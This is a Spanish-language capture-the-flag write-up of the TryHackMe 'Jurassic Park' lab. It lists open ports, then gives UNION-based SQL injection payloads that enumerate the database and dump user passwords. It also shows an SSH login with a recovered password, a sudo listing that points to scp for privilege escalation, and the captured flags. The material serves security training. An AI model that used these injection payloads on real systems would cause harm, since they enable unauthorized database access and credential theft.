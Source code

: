 ```yaml
---
layout: post
title: JurasicPark -THM
subtitle: JurasicPark -THM
tags: [sqli]
---
```


## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

----

## Servicio web

### SQLi

Base de datos

```
http://10.10.110.137/item.php?id=5 union select 1,database(),3,4,5#
```

Numero de tablas de DDBB park

```
item.php?id=5 union select 1,2,3,count(*),5 FROM information_schema.tables WHERE table_schema="park"#
```

Tablas

```
item.php?id=5 union select 1,2,3,table_name,5 FROM information_schema.tables WHERE table_schema="park" LIMIT 1,1#
item.php?id=5 union select 1,2,3,table_name,5 FROM information_schema.tables WHERE table_schema="park" LIMIT 2,1#

items
users
```

Cantidad de columns de tabla items

```
item.php?id=5 union select 1,2,3,count(*),5 FROM information_schema.columns WHERE table_name="items" AND table_schema="park"#

5
```

Contraseña de Dennis

```
item.php?id=5 union select 1,2,3,group_concat(password),5 FROM park.users#

D0nt3ATM3,ih8dinos
```

----

Conexion ssh

```
ssh dennis@10.10.110.137
pass: ih8dinos
```

## Escalada de privilegios

```
dennis@ip-10-10-110-137:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-110-137.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-110-137.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

Flags:

```
flag1: b89f2d69c56b9981ac92dd267f
flag2: 96ccd6b429be8c9a4b501c7a0b117b0a
flag3: b4973bbc9053807856ec815db25fb3f1
flag5: 2a7074e491fcacc7eeba97808dc5e2ec
```
